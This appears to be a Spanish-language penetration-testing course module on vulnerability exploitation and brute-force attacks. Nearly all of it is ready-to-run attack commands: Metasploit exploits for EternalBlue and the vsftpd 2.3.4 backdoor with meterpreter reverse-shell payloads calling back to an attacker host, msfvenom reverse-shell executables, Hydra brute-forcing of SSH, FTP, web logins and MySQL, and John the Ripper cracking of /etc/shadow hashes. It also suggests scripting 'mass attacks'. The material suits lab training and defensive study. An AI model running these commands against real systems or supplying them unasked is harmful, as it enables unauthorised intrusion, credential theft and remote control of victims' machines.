 
# 💥 Explotación de Vulnerabilidades y Ataques de Fuerza Bruta

Este módulo se enfoca en la explotación de vulnerabilidades conocidas utilizando herramientas como Metasploit y técnicas de fuerza bruta con Hydra, John The Ripper y otras. Aprenderás a detectar servicios vulnerables y realizar ataques efectivos tanto en sistemas Windows como Linux.

---

## 🔗 Enlace Alternativo de Descarga de los Laboratorios

Si tienes problemas para acceder a los laboratorios desde la plataforma principal, puedes utilizar enlaces alternativos proporcionados por los instructores o alojados en sitios de respaldo. Asegúrate de verificar que los archivos provienen de fuentes confiables antes de ejecutarlos.

---

## 💣 Uso Básico de Metasploit – Explotación EternalBlue en Windows

EternalBlue (MS17-010) es una vulnerabilidad en SMBv1. Se puede explotar con Metasploit.

### 🛠️ Comando básico:
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOST <IP_VICTIMA>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <IP_ATACANTE>
exploit
```

---

## 🐧 Uso Básico de Metasploit – Explotación vsftpd en Linux

`vsftpd 2.3.4` tiene una vulnerabilidad de backdoor en modo anónimo.

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <IP_VICTIMA>
set RPORT 21
exploit
```

---

## 🧬 Msvenom – Generar Nuestros Propios Payloads

Msfvenom permite generar payloads personalizados para múltiples plataformas.

### 🐍 Ejemplo: Payload en Python para Linux
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f elf > shell.elf
```

### 🪟 Ejemplo: Payload .exe para Windows
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe > shell.exe
```

---

## 🔓 Uso de Hydra – Ataques de Fuerza Bruta a Contraseñas (SSH y FTP)

### 🔐 SSH:
```bash
hydra -l root -P rockyou.txt ssh://192.168.1.10
```

### 📁 FTP:
```bash
hydra -l admin -P wordlist.txt ftp://192.168.1.20
```

---

## 👤 Uso de Hydra – Ataques de Fuerza Bruta a Usuarios (SSH y FTP)

Si tienes una lista de usuarios y una sola contraseña:

```bash
hydra -L users.txt -p password123 ssh://192.168.1.10
```

---

## 🌐 Uso de Hydra – Ataques de Fuerza Bruta a Paneles de Login Web

```bash
hydra -l admin -P rockyou.txt 192.168.1.30 http-post-form "/login.php:user=^USER^&pass=^PASS^:F=error"
```

> Cambia la URL y parámetros según el formulario real del sitio.

---

## 🎯 Ataques de Fuerza Bruta con Metasploit

Metasploit tiene módulos auxiliares para bruteforce:

```bash
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.1.10
set USERNAME root
set PASS_FILE /usr/share/wordlists/rockyou.txt
run
```

---

## 🧵 Ataques de Fuerza Bruta contra Bases de Datos

Ejemplo con MySQL:

```bash
hydra -L users.txt -P passwords.txt 192.168.1.50 mysql
```

También puedes usar herramientas específicas como `sqlmap`.

---

## 🧠 Ataques de Fuerza Bruta en Local con John The Ripper

Si tienes un hash de una contraseña:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Puedes obtener hashes desde archivos `/etc/shadow`, bases de datos, dumps, etc.

---

📌 Recomendaciones:

- Usa wordlists efectivas como `rockyou.txt` o crea las tuyas.
- Automatiza tareas con scripts si haces ataques en masa.
- No hagas ataques reales fuera de laboratorios o entornos controlados.

---

📚 Recursos útiles:

- https://www.rapid7.com/db/modules/
- https://tools.kali.org/password-attacks/hydra
- man john, man hydra, man msfvenom

---

💡 “No es cuestión de fuerza, es cuestión de probar hasta encontrar la combinación correcta.”
